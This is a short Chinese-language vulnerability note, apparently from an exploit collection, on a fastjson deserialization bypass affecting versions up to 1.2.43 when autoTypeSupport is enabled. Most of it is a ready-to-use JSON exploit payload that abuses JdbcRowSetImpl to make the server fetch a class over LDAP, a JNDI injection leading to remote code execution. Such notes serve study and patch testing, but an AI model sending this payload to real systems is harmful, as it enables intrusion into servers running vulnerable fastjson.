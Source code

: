 影响版本：  
- fastjson<=1.2.43

前提：
autoTypeSupport属性为true才能使用。（fastjson>=1.2.25默认为false）

exp：
```
{"@type":"[com.sun.rowset.JdbcRowSetImpl"[{,"dataSourceName":"ldap://localhost:1399/Exploit", "autoCommit":true}
```



